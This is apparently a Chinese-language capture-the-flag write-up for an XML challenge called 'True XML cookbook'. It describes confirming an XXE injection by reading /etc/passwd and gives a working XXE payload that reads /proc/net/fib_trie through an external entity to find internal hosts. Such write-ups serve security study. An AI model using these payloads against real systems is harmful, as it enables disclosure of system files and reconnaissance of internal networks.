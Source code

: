 
## True XML cookbook  


和上一题类似，先使用同样的方式xxe攻击，但是没有显示结果，可能是攻击失败，也可能没有这个文件，访问其他文件，比如/etc/passwd,返回结果，说明攻击成功，不存在flag文件  
![alt text](image-26.png)  

---  

flag可能在内网主机上，查看/proc/net/fib_trie  
```xml  
<?xml version="1.0"?>
<!DOCTYPE user[
<!ENTITY root SYSTEM "file:///proc/net/fib_trie">
]>
<user><username>&root;</username><password>asdg</password></user>
```  